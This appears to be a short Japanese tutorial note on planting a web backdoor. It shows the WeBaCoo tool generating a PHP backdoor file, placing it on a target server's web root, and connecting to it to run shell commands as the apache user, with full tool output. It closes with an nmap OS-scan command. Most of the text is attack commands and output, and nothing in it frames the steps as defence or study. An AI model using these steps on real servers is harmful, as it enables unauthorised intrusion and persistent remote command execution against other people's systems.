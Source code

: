 ## backdoor を作成する

```
$ webacoo -g -o backdoor.php

        WeBaCoo 0.2.3 - Web Backdoor Cookie Script-Kit
        Copyright (C) 2011-2012 Anestis Bechtsoudis
        { @anestisb | anestis@bechtsoudis.com | http(s)://bechtsoudis.com }

[+] Backdoor file "backdoor.php" created.

$ ls
backdoor.php
```

## backdoor.php を仕掛ける

　対象のサーバーに backdoor.php を配置する。たとえば ```/var/www/html/backdoor.php``` のように配置。

## Cracking

　backdoor.php にアクセス。apache ユーザーでコマンドを実行できるようになる。
　
```
$ webacoo -t -u http://192.168.yyy.zzz/backdoor.php

        WeBaCoo 0.2.3 - Web Backdoor Cookie Script-Kit
        Copyright (C) 2011-2012 Anestis Bechtsoudis
        { @anestisb | anestis@bechtsoudis.com | http(s)://bechtsoudis.com }

[+] Connecting to remote server as...
uid=48(apache) gid=48(apache) groups=48(apache) context=unconfined_u:system_r:httpd_t:s0

[*] Type 'load' to use an extension module.
[*] Type ':<cmd>' to run local OS commands.
[*] Type 'exit' to quit terminal.

webacoo$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=unconfined_u:system_r:httpd_t:s0
webacoo$ pwd
/var/www/html
webacoo$ ls -lF
total 8
-rw-r--r--. 1 root root 576 Aug 23 00:14 backdoor.php
-rw-r--r--. 1 root root   2 Aug 23 00:18 index.html
webacoo$
```

# OS をスキャンする

```bash
nmap -O 192.168.56.101
```
